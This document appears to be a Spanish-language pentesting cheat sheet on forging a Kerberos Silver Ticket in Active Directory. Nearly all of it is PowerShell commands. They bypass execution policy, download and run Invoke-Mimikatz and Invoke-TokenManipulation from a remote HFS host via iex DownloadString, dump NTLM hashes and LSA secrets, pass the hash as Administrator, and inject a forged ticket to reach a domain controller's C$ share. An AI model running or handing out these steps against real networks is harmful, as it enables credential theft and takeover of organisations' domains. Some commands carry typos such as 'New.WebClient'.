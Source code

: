 # Silver Ticket 

Tags: #AD #Window #Powershell 

Envuelve la creación de un TGS valido para un servicio especifico donde el hash de la contraseña es obtenido. Esto permite un acceso no autorizado al servicio forjando por TGS modificado. Los 'Silver Tickets' tienen un alcance mas pequeño comparado a los 'Golden Tickets', como solo proveer acceso a un recurso especifico en el sistema host y recurso. Los atacantes pueden forjar un 'Silver Ticket' para crear y usar TGS sin interactuar con los KDC.

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain                                 # Verificamos el dominio 
❯ Get-DomainSID                              
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin
❯ Enter-PSSession <seclogs.domian.local>     # Nos autenticamos a la sesion local via remota en el 'DOMINIO' 
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios 

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1')  # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
	❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado

	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1')
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin'
```

```bash 
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'
```

```bash 
# El comando anteriro despliega una nueva venta en Powershell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName <DomainController> # Muestra info para el 'Silver Ticket'
```

```bash 
# En una nueva Powershell 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas

❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-DomainSID                              # Obtenemos el SID

❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain> /sid:12345 /target:<DomainController> /service:CIFS /rc4:<NTLM_Hash> /user:administrator /ptt"'       # Generamos e inyectamos nuestro 'Silver Ticket' 

❯ ls \\DomainController\C$                   # Verificar si ingresamos al 'Domain Controller'
```